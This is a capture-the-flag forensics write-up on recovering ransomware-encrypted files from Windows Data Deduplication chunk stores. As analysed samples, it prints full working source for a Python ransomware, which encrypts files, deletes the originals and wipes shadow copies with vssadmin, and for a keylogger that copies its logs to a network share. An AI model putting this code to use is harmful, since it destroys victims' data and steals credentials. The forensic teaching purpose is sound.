<font size='10'>Stay Hydrated</font>

19<sup>th</sup> Apr 2026

Prepared By: bquanman

Challenge Author(s): bquanman

Difficulty: <font color=red>Insane</font>

Classification: Official

# Synopsis

The challenge aims to recover data from a system using the Data Deduplication feature that has been attacked by ransomware.

## Description

Horizon Trust Solutions is panicking after a disguised wiper attack encrypted deployment servers. The perpetrators, using the DeadDrop Cartel proxy, left no ransom note, exposing their motive as state-sponsored sabotage. Directorate 9 operatives lurked in our network for months, mapping federation trusts and harvesting credentials to orchestrate this deep-seated assault. At stake is the core validation framework for the Trusted Supply Chain Act, built for the National Election Commission. With polls opening in days, the pristine deployment package was finalized for handover. In a calculated move, Vane's forces struck at the eleventh hour to maximize public panic and disruption. The geopolitical repercussions are immense; failing to deliver compromises the election and cements Korvia's leverage. Task Force Nightfall implores your expertise to recover the uncorrupted release package from the crippled staging environment.

## Context idea/Challenge development

The environment used in the challenge consists of a DC server used as a file server with drive D shared for common use by a small company < 10 employees. Drive D includes subdirectories, each corresponding to departments. One employee's computer was compromised, from which the attacker placed the keylogger log.exe into the shared drive on the server. Other victims accidentally executed it, causing the keylogger to run on their computers, eavesdrop on their keystrokes, and log them into files. These log files are sent back to the shared folder, making it easy for the attacker to collect the log files without returning to each employee's computer. The server uses Data Deduplication, and through multiple Data Optimization jobs, the keylogger and log files became reparse points. During the lurking period, eavesdropping on the conversation of 2 developers, the attacker obtained the KeePass database password, which includes passwords for each project the development team is working on, including the project with Starline company that the attacker targets. Then the attacker decided to encrypt all data on the victim's machine and the shared drive. After the data was encrypted, the evidence was collected.

The player's goal is to recover the packaged released source code for the Starline project. This file has the reparse point attribute so it can be recovered from the Dedup Chunkstore because the Dedup Chunkstore data is not encrypted. The password for this project is in the KeePass database. The KeePass database has an extension that is not in the list of encrypted files and also did not become a reparse point, so it can be extracted directly from the disk image. The KeePass database password is in the keylogger log that the attacker obtained when eavesdropping on the user opening this file. The keylogger log is also affected by the ransomware encryption but since it is a reparse point, it can also be recovered from the Dedup Chunkstore. 

Must understand how Data Dedup works, from which the player will recover the keylogger log, the player needs to reconstruct the keystrokes to get the KeePass password => extract KeePass from disk image and open it with the above key to get the Starline project key => Recover the packaged released source code from Dedup Chunkstore like the keylogger log and use the Starline project key to get the flag.

Note: Ransomware and KeePass database can be extracted directly from disk image because they are regular files; keylogger, keylogger log, packaged released source code need to be reconstructed from Dedup Chunkstore.

## Skills Required

* Data Deduplication Knowledge
* Windows Disk Forensics Knowledge
* Slight malware analyst

## Skills Learned

* Recover Data from Dedup
* Compress method of Dedup for saving space

## Enumeration

In this challenge, we are provided with an evidence.7z archive containing two files:

- C.vhdx: Artifact Triage of drive C
- D.E01: Full disk image of drive D

Preliminary investigation shows almost no signs of attack on drive C, while drive D has almost all data encrypted. Drive D is a shared drive that all employees can access from their computers via SMB, so encrypting drive D could even be done from a client machine.



Now we will focus on analyzing drive D.



An overview shows that data on drive D is divided into separate folders for each department, with some shared folders like Common, Public, Tool... and right in the root directory, there is a suspicious file main.exe

This is a Python executable, so it's not hard to get its source code

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: main.py
# Bytecode version: 3.11a7e (3495)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

from Crypto.PublicKey import RSA
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.Util import Counter

import argparse
import os
import sys
import base64
import subprocess

def discoverFiles(startpath):
    extensions = [
        'jpg', 'jpeg', 'bmp', 'gif', 'png', 'svg', 'psd', 'raw',
        'mp3','mp4', 'm4a', 'aac','ogg','flac', 'wav', 'wma', 'aiff', 'ape',
        'avi', 'flv', 'm4v', 'mkv', 'mov', 'mpg', 'mpeg', 'wmv', 'swf', '3gp',

        'doc', 'docx', 'xls', 'xlsx', 'ppt','pptx',
        'odt', 'odp', 'ods', 'txt', 'rtf', 'tex', 'pdf', 'epub', 'md', 'dat',
        'yml', 'yaml', 'json', 'xml', 'csv',
        'db', 'sql', 'dbf', 'mdb', 'iso',

        'html', 'htm', 'xhtml', 'php', 'asp', 'aspx', 'js', 'jsp', 'css',
        'c', 'cpp', 'cxx', 'h', 'hpp', 'hxx',
        'java', 'class', 'jar',
        'ps', 'bat', 'vb',
        'awk', 'sh', 'cgi', 'pl', 'ada', 'swift',
        'go', 'py', 'pyc', 'bf', 'coffee',

        'zip', 'tar', 'tgz', 'bz2', '7z', 'rar', 'bak',
    ]

    for dirpath, dirs, files in os.walk(startpath):
        for i in files:
            absolute_path = os.path.abspath(os.path.join(dirpath, i))
            ext = absolute_path.split('.')[-1]
            if ext in extensions:
                yield absolute_path

def modify_file_inplace(filename, crypto, blocksize=16):
    with open(filename, 'r+b') as f:
        plaintext = f.read(blocksize)

        while plaintext:
            ciphertext = crypto(plaintext)
            if len(plaintext) != len(ciphertext):
                raise ValueError('''Ciphertext({})is not of the same length of the Plaintext({}).
                Not a stream cipher.'''.format(len(ciphertext), len(plaintext)))

            f.seek(-len(plaintext), 1)
            f.write(ciphertext)

            plaintext = f.read(blocksize)

AES_KEY = os.urandom(32)
SERVER_PUBLIC_RSA_KEY = '''-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqH8e7yL04ioy7lHiE/Jo
Vdyt2HQ6WsiRZu+WPu9h/Q4qK55T/p7X37SPhumD4uQVM8DyZstrIDr9t0qfQ3tv
yhKupFTRkWgE8PjCj/ypQseKLmWhv75Cf7Eh6C/9UCT85blmd9yk6XrYrf6Zs42t
BU6CTFWpnIGQqouzcDeS0hTrsfXpdTyEnoITwnCkXdHa4NjE4Eb8iiIcW7/Kj4Hv
es7HBmifCfpKPMorVFk0NC2Q9Inm4sE16xVYBXP1BIIdZnkS7jogjJ+BU8q5TTnY
ejjEzUrpVRteXjEVXLOgHIqwkVMu94FSpvbPnn79HAnoSek9i0PvYf6e5gGB5LPr
UQIDAQAB
-----END PUBLIC KEY-----'''
extension = ".enc"

def parse_args():
    parser = argparse.ArgumentParser(description='Ransomware')
    return parser.parse_args()

def main():
    try:
        args = parse_args()

        startdirs = [os.getcwd()]

        server_key = RSA.importKey(SERVER_PUBLIC_RSA_KEY)
        encryptor = PKCS1_OAEP.new(server_key)
        encrypted_key = encryptor.encrypt(AES_KEY)
        encrypted_key_b64 = base64.b64encode(encrypted_key).decode("ascii")

        print("Encrypted key " + encrypted_key_b64 + "\n")

        key = AES_KEY

        ctr = Counter.new(128)
        crypt = AES.new(key, AES.MODE_CTR, counter=ctr)

        original_files = []
        for currentDir in startdirs:
            for file in discoverFiles(currentDir):
                if not file.endswith(extension):
                    try:
                        with open(file, 'rb') as f:
                            plaintext = f.read()
                        ciphertext = crypt.encrypt(plaintext)
                        with open(file + extension, 'wb') as f:
                            f.write(ciphertext)
                            f.write(encrypted_key)
                        original_files.append(file)
                        print("File encrypted: " + file + " -> " + file + extension)
                    except Exception as e:
                        print(f'Failed to encrypt {file}: {str(e)}')

        try:
            for orig_file in original_files:
                try:
                    os.remove(orig_file)
                    print("Original file deleted: " + orig_file)
                except (OSError, PermissionError) as e:
                    print(f'Failed to delete {orig_file}: {str(e)} - Skipping.')
        except Exception as e:
            print(f'Unexpected error during file deletion: {str(e)}')

        try:
            subprocess.run(['vssadmin', 'delete', 'shadows', '/all', '/quiet'], check=True)
        except subprocess.CalledProcessError:
            pass

    except Exception as e:
        print(f'Error: {str(e)}')
        sys.exit(1)

    for _ in range(100):
        pass

if __name__=="__main__":
    main()
```

This ransomware performs:

1. Generates a random AES_KEY for encrypting files using AES-CTR
2. Encrypts the content of each file and writes to a new file with .enc extension
3. Encrypts the AES_KEY with the RSA public key and writes it to the end of the encrypted file
4. Deletes all original files
5. Deletes volume shadow copies

The ransomware is quite straightforward, representing a simple, basic modern ransomware. However, decryption is almost impossible because the combination of symmetric and asymmetric cryptography fills in the weaknesses. Only with the RSA private key can data be decrypted, but that RSA public key is long and secure enough not to be broken.

Data recovery in this case can only rely on pure forensics. We see that the above ransomware has a weakness: it deletes the original files last after creating all encrypted files, which means the original data is not overwritten but moved to unallocated and can still be recovered by carving. This is proven by the image below:



However, it has issues with larger files



Because the common point of these files is that they have type Reparse Point, this clearly shows that the server uses Data Deduplication to save disk space. The content of these files is not stored directly in the file but the file becomes a reparse point referencing the original data in .ccc files in the Chunk Store, the path to Chunk Store is `C:\System Volume Information\Dedup\ChunkStore`.

There are 2 important directories here:

- C:\System Volume Information\Dedup\ChunkStore\{77F962D7-1532-4DCD-8EC9-224C8B17741F}.ddp\Stream: contains information about the data streams of a file when it is chunked, this information helps Dedup know where each part of the file data is in the data container.

- C:\System Volume Information\Dedup\ChunkStore\{77F962D7-1532-4DCD-8EC9-224C8B17741F}.ddp\Data: This directory contains the real data of each part of the file, storing this data in .ccc files

Therefore, even if the ransomware does not have the weakness above, even if the ransomware thoroughly deletes all unallocated data, as long as the .ccc files are not encrypted, we can still recover the original file. It's just a bit harder because deleting unallocated data can lose the MFT record of the original file and can be considered as losing the guide to the Containers containing the original file, however recovery is still completely feasible (of course the recovery must be done before the Garbage Collect job deletes all free data in the container)

The direction is there, now we just need to identify the file to recover and test the feasibility of the idea.

Reading the description carefully combined with searching for active projects related to the Starline company, we will see the packaged released source code at **D:\Projects\01_Active\Starline_Concert_Ticketing_Portal\06_Releases\UAT_Builds\StarlineTicketing_Release_1.0.0.7z**



## File Recovery

### Parse MFT record

To recover this file, we first need information from the MFT record of the file



For a regular file, data runs point to the actual data of the file, however for a file with Reparse Point attribute, data runs are in the Reparse Point attribute data, they point to Reparse data on disk.

### Parse Reparse Data

We have the formula to calculate Data runs offset start as follows

```
DiskByteOffset = (LCN × BytesPerCluster) + PartitionStartingOffset
```

=> DiskByteOffset = (0x0117d8 x 0x1000) + 0 = 0x117d8000

You can also use calculation tools



To jump to disk byte offset 0x117d8000 we need the image in raw format. One way to convert E01 to raw is:

```
ewfexport -t D.raw D.E01
```

Jump to offset 0x117d8000 and reparse data is parsed as follows (based on my research, as there doesn't seem to be any official documentation for it)



>ChunkStoreUID=d762f9773215cd4d8ec9224c8b17741f<br>
StreamChunkStart=0x3d0b0<br>
StreamChunkHash=24daea52e54c64aaef60cb88b681f679<br>
SmapChunkSize=0x8c

From the ChunkStoreUID, we identify the correct directory {77F962D7-1532-4DCD-8EC9-224C8B17741F}.ddp

Since each StreamChunkHash is unique, we can use it to search in the Stream container files to see information about StarlineTicketing_Release_1.0.0.7z located on which .ccc stream container in the Stream folder


### Parse Stream Chunk

Searching for 24daea52e54c64aaef60cb88b681f679 leads us to offset 0x3d0e8 of the file Stream\00020000.00000002.ccc

This StreamChunk also starts from 0x3d0b0 just like what we got from Reparse Data



>DataChunkStart=0xa07500<br>
DataChunkHash=799d6e295b935bfa41bd3addb32a0ba9e7865d777f75783b57576443ff7a651f<br>
DataChunkSize=0x01bdd6

In the StreamChunk, the important part is the SmapChunk with signature `Smap`. The SmapChunk contains information about sequences, the number of sequences corresponds to the number of parts the file was chunked into. Each sequence contains information DataChunkStart, DataChunkHash, DataChunkSize, from which we can determine which Data Chunk contains the actual data of each part of the file.

### Parse Data Chunk 

Since each DataChunkHash is also unique, we can use it to search in the Data container files to see which .ccc file in the Data folder contains the data of each part

Searching for 799d6e295b935bfa41bd3addb32a0ba9e7865d777f75783b57576443ff7a651f leads us to offset 0xa07528 of the file Data\00000004.00010000.ccc

This DataChunk also starts from 0xa07500 just like what we got from parsing the Stream Chunk



>DataChunkSize=0x01bdd6<br>
DataChunkHash=799d6e295b935bfa41bd3addb32a0ba9e7865d777f75783b57576443ff7a651f

Thus, based on DataChunkSize we can recover the full data of the first part of the zip file and do the same to recover all parts of the zip file to reassemble into the complete file.

#### Data Deduplication Flow Overview

* General flow of data reference of a file



After recovering StarlineTicketing_Release_1.0.0.7z you will see that it is password protected.

Based on the description `eavesdropping on communications and harvesting passwords` it seems that credentials have been leaked in some way.

### Get password

You will surely see suspicious files in the Tool\Process Lasso folder



Besides the files that have become unreadable Reparse Points, the regular files show content similar to a keylogger and the log.exe file could be the malware.

The log.exe file has become a Reparse Point so we need to reconstruct it from Dedup ChunkStore. Although this is not really necessary but it helps you understand the context better.

There are 2 ways to recover the log.exe file. The first way is to reconstruct it from Dedup Chunkstore Data. The second way is to mount the E01 file into a computer using the Data Deduplication feature; Windows will automatically rehydrate the log.exe file, or in other words, it will reconstruct it for us. For files to be automatically rehydrated like this, 2 conditions are needed: It has undergone the optimization process and become a reparse point; It still exists on the disk, meaning it has not been encrypted or deleted.

After recovering log.exe we see this is again a python executable. The source code of log.exe is as follows:

```python
import logging
import os
import getpass
import shutil
from pynput import keyboard

log_path = os.path.join(os.environ['TEMP'], f"{getpass.getuser()}.dat")
logging.basicConfig(filename=log_path, level=logging.DEBUG, format='["%(asctime)s", %(message)s]')

def send_logs():
    try:
        shutil.copy(log_path, r"\\192.168.239.10\D\Tool\Process Lasso\\" + os.path.basename(log_path))
    except:
        pass

def on_press(key):
    try:
        logging.info(f'{key.char} pressed')
    except AttributeError:
        logging.info(f'{key} pressed')

def on_release(key):
    logging.info(f'{key} released')
    if key == keyboard.Key.esc:
        send_logs()
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

It performs eavesdropping on the user's keyboard and writes to a .dat file then sends it to the shared folder. So the scenario here could be that somehow the user accidentally executed the keylogger or a loader from the shared folder, then their keystrokes were recorded and sent to a common place. In this way the attacker can concentrate all the keystroke histories of users in one place to easily harvest.

Reconstructing the hr01.dat, it01.dat, qa01.dat files does not give useful data so we have to continue recovering dev01.dat and dev02.dat to see if there is anything interesting

When using the same method to recover dev01.dat and dev02.dat from Dedup Chunkstore you will see that the data of the file in the Data Container except for the first few bytes looks correct then the later part looks chaotic unlike the other plain text keylogger logs



This is because Dedup by default uses compression mode when optimizing data. The reason the data of the StarlineTicketing_Release_1.0.0.7z file is not compressed is because its nature is already a compressed file so additional compression is not efficient. Even when a file is chunked into multiple parts, some parts of the file may be compressed while others are in raw form, depending on Microsoft's algorithm, it compresses if it sees efficiency. 

But specifically what compression algorithm does Microsoft use? There is no exact documentation for this question. However, through research and experimentation on multiple compression algorithms used by Microsoft, I discovered that the algorithm used in Dedup is XPRESS. However, in my script I still try all 4 algorithms including: XPRESS, XPRESS_HUFF, LZMS, LZNT1, if all algorithms give error then that data part is not compressed

Solve script: [dedup_recover_file.py](script-solve/dedup_recover_file.py)

```bash
>  python dedup_recover_file.py dev01.dat D.raw
[+] MFT record idx=151, file_off=0x25c00 (has FILE_NAME + REPARSE_POINT)
[+] NTFS @ 0x0, ClusterSize = 4096
[*] ReparseData @ 0x10e7e000
[*] ReparsePreviewLen  = 0x110
[*] ReparseTag        = 0x80000013
[*] ReparseDataLength = 0x100
[*] ReparseReserved   = 0x0
[*] Candidate base=0x7c StreamChunkStart=0x3ac60 SmapChunkSize=136 ChunkStoreUID=d762f9773215cd4d8ec9224c8b17741f StreamChunkHash=f150e35337262396c87edda8d88e2e72
[+] StreamChunkHash found in: Stream\00020000.00000002.ccc at offset 0x3ac98
[+] Calculated SMAP @ abs=0x3acc8 from StreamChunkHash
[+] ChunkStoreUID      = d762f9773215cd4d8ec9224c8b17741f
[+] StreamChunkStart   = 0x3ac60
[+] SmapChunkSize      = 136
[+] StreamChunkHash    = f150e35337262396c87edda8d88e2e72
[+] STREAM_CONTAINER   = 00020000.00000002.ccc
[+] SMAP              = 0x3acc8 (layout=A)
